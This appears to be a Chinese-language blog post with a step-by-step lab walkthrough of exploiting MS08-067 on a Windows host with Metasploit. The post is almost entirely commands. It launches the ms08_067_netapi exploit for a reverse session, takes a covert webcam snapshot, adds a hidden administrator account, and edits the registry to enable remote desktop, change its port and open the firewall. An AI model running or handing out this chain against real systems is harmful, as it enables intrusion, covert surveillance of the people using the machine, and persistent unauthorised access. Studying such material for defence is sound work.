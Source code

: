 ```yaml
---
layout: post
title:  ms08_067漏洞利用
date: 2021-03-26 11:36:12 +0900
category: exploiting
---
```

<!-- TOC -->

- [0x0 确定攻击者IP和受害者IP](#0x0-确定攻击者ip和受害者ip)
    - [攻击机](#攻击机)
    - [受害机](#受害机)
- [0x1 启动MSF](#0x1-启动msf)
- [0x2 启动摄像头](#0x2-启动摄像头)
- [0x3 创建用户](#0x3-创建用户)
- [0x4 开启远程桌面端口以及远程连接](#0x4-开启远程桌面端口以及远程连接)

<!-- /TOC -->
## 0x0 确定攻击者IP和受害者IP

### 攻击机
![](https://lcy2218.github.io/images/20210326-1.png)
### 受害机
![](https://lcy2218.github.io/images/20210326-2.png)

## 0x1 启动MSF
```c
    msfconsole
    use exploit/windows/smb/ms08_067_netapi
    set lhost 192.168.88.130
    set rhost 192.168.88.139
```
![](https://lcy2218.github.io/images/20210326-3.png)

```c
    run
```

![](https://lcy2218.github.io/images/20210326-4.png)

```c
    ipconfig
```

![](https://lcy2218.github.io/images/20210326-5.png)

## 0x2 启动摄像头

```c
    webcam_list
    webcam_snap
```

![](https://lcy2218.github.io/images/20210326-6.png)

## 0x3 创建用户

```c
    net user lcy 2218 /add
    net localgroup administrators lcy /add  //把lcy加入管理员用户
```

![](https://lcy2218.github.io/images/20210326-7.png)

## 0x4 开启远程桌面端口以及远程连接

```c
    REG query HKLM\SYSTEM\CurrentControlSet\Controly\Terminal" "Server\WinStations\RDP-Tcp 
    /v PortNumber //查询终端端口
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections 
    /t REG_DWORD /d 00000000 /f //开启XP&2003终端服务
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp 
    /v PortNumber /t REG_DWORD /d 0x7d8 /f   //更改终端端口为2008(0x7d8)默认为3389（0xD3D）
    REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\

    Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 
    3389:TCP:*:Enabled:@xpsp2res.dll,-22009 /f
    //取消xp&2003系统防火墙对终端服务的限制及IP连接的限制
    
    rdesktop -f -a 16 192.168.88.139:3389
    //在另一个终端开启远程桌面
```

![](https://lcy2218.github.io/images/20210326-8.png)
![](https://lcy2218.github.io/images/20210326-9.png)